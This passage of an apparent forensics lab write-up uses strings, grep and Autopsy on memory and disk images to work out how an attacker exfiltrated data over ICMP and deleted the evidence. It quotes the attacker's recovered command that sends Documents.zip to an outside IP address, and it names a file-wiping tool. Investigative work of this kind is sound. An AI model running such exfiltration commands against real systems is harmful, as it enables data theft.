 ### Q4 Name the executable that the attacker used to cover his tracks (delete other files) 

Steps to solving question 2, 3, and 4 are as follows - 

All we know about exfiltrated data is that it was exfiltrated in ICMP packets. let's search memory image for the keyword `icmp`. 

23. We can use `strings.exe`. 

    ```
    cd C:\ProgramData\chocolatey\bin
    strings C:\Users\User\Desktop\HibRec_2021-08-23-09-48-56-21849\ActiveMemory.bin | grep icmp
    ```

    From the search results, we have found a couple of important nuggets of information - 

    * Probably `icmp_exfil_client.exe` is the file that was used for exfiltrating data and is located at `C:\Users\Ashlyn.Weldon\`

    * the command executed was `icmp_exfil_client.exe -f Documents.zip -d 138.219.4.239 -c 2048 -s 1 -e base64`
      * probably the file exfiltrated is `Documents.zip` which is located in the same folder as the exfil application and the file is exfiltrated to that IP (answer to question 2)

    * `temp.exe` was used against `icmp_exfil_client.exe` (`temp.exe -accepteula icmp_exfil_client.exe`)

24. If we want we can extract the `icmp_exfil_client.exe` from image mounted in autopsy to analyze it further

25. Reopen autopsy and browse to `C:\Users\Ashlyn.Weldon`, you'll notice both `icmp_exfil_client.exe` and `Documents.zip` are not present in this folder.

    From the above string search we also learnt about `temp.exe`

26. Let's do another string search this time looking for `temp.exe`

    ```
    strings C:\Users\User\Desktop\HibRec_2021-08-23-09-48-56-21849\ActiveMemory.bin | grep temp.exe
    ```

    From the string search we know,

    * the location of temp.exe - `C:\Windows\system32\`
    * and that is was executed against `Documents.zip` and `icmp_exfil_client.exe`

    Since both files are missing from the hard drive image, we may assume that temp.exe was used to delete the two files. 

    We can prove this by extracting temp.exe from autopsy.

27. Reopen autopsy and browse to `C:\Windows\System32`

28. Right click on `temp.exe` , click `Extract File(s)`, and save it to Desktop

29. Create an empty text file on the Desktop and name it `temp.txt`

30. Now run `temp.exe` against `temp.txt` to see what happens
